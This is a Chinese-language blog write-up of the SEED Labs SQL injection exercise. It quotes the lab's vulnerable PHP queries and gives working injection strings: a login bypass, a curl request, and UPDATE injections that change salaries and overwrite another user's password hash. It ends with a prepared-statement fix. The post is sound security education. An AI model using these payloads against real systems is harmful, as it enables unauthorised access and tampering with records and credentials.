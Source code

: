 ```yaml
---
layout: post
title:  "【SEED Labs】SQL injection"
date:   2020-11-01 00:00:00 +0800
categories: 实验
tags: SEEDLab 安全
comments: 1
mathjax: true
copyrights: 原创
---
```


本文为 [SEED Labs 2.0 - SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/) 的实验记录。

# 实验原理

SQL注入攻击通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，它目前是黑客对数据库进行攻击的最常用手段之一。

# Task 1: Get Familiar with SQL Statements

启动 docker

```shell
dcbuild
dcup
```

然后进入 mysql 程序

```shell
dockps
docksh **
mysql -u root -p dees
```

> After running the commands above, you need to use a SQL command to print all the profile information of the employee Alice.

```mysql
use sqllab_users;
show tables;
desc credential;
select * from credential where Name='Alice'
```

<img src="https://i.loli.net/2021/07/24/Oz14IRuBaf3ZENS.png" alt="image-20210722144514099" style="zoom:50%;" />

# Task 2: SQL Injection Attack on SELECT Statement

## Task 2.1: SQL Injection Attack from webpage

打开 [seed-server.com](http://www.seed-server.com/)

观察 unsafe home.php，看到里面有如下判断

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

我们只需要把判断 Password 的部分屏蔽即可

```
admin';#
```

<img src="https://i.loli.net/2021/07/24/AzXs2vQFEPSoLiY.png" alt="image-20210722145300064" style="zoom:50%;" />

## Task 2.2: SQL Injection Attack from command line

转换一下 url 编码即可

```shell
curl 'www.seed-server.com/unsafe_home.php?username=%27%3b%23'
```

得到

<img src="https://i.loli.net/2021/07/24/oYJ9Ep5a6I7GnsN.png" alt="image-20210722150454000" style="zoom:50%;" />

看到已经显示了所有用户信息

## Task 2.3: Append a new SQL statement

注入

```plain text
Alice'; update credential set name=A where ID=1;#
```

可以看到注入不成功

<img src="https://i.loli.net/2021/07/24/EuwMNsmyAal3YjC.png" alt="image-20210722150917741" style="zoom:67%;" />

# Task 3: SQL Injection Attack on UPDATE Statement

## Task 3.1: Modify your own salary

进入 Alice 修改个人资料的页面

观察 unsafe edit backend.php，看到有如下判断

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
$conn->query($sql);
```

注入

```
',salary='30000' where ID=1;#
```

<img src="https://i.loli.net/2021/07/24/gGiR6Q3UlqtF7Zk.png" alt="image-20210722153947448" style="zoom: 50%;" />

## Task 3.2: Modify other people’s alary

这个和上面的几乎一模一样，比如我们把 Boby 的薪水改成 114514

```
',salary='114514' where ID=2;#
```

<img src="https://i.loli.net/2021/07/24/pkiohbyqBA8dsE5.png" alt="image-20210722154549727" style="zoom:50%;" />

看到已经改掉了

<img src="https://i.loli.net/2021/07/24/yMn3oTgsl5bmjAQ.png" alt="image-20210722154726908" style="zoom:50%;" />

## Task 3.3: Modify other people’s password

查看代码，看到密码采用的是 sha1，我们随便找个在线转换网站转换一下就好了。

<img src="https://i.loli.net/2021/07/24/J1tbDONHnlpdCMr.png" alt="image-20210722155151501" style="zoom: 67%;" />

然后注入

```
',Password='1f82c942befda29b6ed487a51da199f78fce7f05' where ID=1;#
```

<img src="https://i.loli.net/2021/07/24/GAreWY3vmxCNyaj.png" alt="image-20210722155300581" style="zoom:50%;" />

然后现在可以用密码 `888888` 成功登录 Alice 账号。

# Task 4: Countermeasure — Prepared Statement

登录 [seed-server.com/defense](http://www.seed-server.com/defense/)

这里我们需要将参数与查询分离。修改 unsafe.php，做如下改动

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
						FROM credential
						WHERE name = ? and Password = ? ");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

<img src="https://i.loli.net/2021/07/24/YtBRjOc6n715wDI.png" alt="image-20210724202537000" style="zoom:50%;" />

可以看到，攻击失败了

<img src="https://i.loli.net/2021/07/24/CFiGfJ219y7SDIB.png" alt="image-20210724201943781" style="zoom:50%;" />

# 实验总结

实验属于最简单的 SQL injection。主要的收获在于最后一个 Task，以前只知道怎么注入，很少研究过怎么防御。
